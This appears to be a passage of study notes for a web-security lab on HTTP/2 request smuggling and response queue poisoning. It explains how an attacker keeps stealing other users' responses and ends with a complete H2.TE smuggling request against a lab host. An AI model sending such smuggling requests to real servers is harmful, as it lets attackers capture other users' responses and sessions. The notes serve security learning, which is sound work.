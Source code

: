 >![img](../../zzz_res/attachments/response-queue-poisoning.png)

An attacker can continue to steal responses like this for as long as the front-end/back-end connection remains open. Exactly when a connection is closed differs from server to server, but a common default is to terminate a connection after it has handled 100 requests.

>[!tip] 
>To make it easier to differentiate stolen responses from responses to your own requests, try using a non-existent path in both of the requests that you send. That way, your own requests should consistently receive a 404 response, for example.

H2.TE complete smuggling request:
```http
POST / HTTP/2
Host: 0afc00ca0446b36e80b5df0000b700cd.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 89

0

GET /x HTTP/1.1
Host: 0afc00ca0446b36e80b5df0000b700cd.web-security-academy.net
```
